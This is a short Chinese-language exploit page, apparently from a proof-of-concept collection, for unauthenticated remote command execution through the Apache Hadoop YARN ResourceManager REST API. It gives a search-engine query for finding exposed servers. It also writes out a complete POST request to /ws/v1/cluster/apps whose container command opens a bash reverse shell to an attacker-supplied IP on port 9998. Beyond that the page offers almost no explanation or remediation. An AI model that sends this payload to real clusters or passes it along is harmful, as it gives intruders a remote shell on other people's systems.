 # Apache Hadoop Yarn RPC 远程命令执行漏洞

## 漏洞描述

 Hadoop Yarn RPC未授权访问漏洞存在于Hadoop Yarn中负责资源管理和任务调度的ResourceManager，成因是该组件为用户提供的RPC服务默认情况下无需认证即可访问，

## 漏洞影响

<a-checkbox checked>Apache Hadoop </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="APACHE-hadoop-YARN"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1657361631852-75dabea7-851c-4155-973d-79ebcfbf1fd0.png)

验证请求包

```php
POST /ws/v1/cluster/apps HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 215
Content-Type: application/json

{"application-id": "application_1655112607010_0005", "application-name": "get-shell", "am-container-spec": {"commands": {"command": "/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9998 0>&1"}}, "application-type": "YARN"}
```

![img](../../../.vuepress/public/img/1657361905195-15771262-fd2e-4c75-ba06-82b1d0ce7aad.png)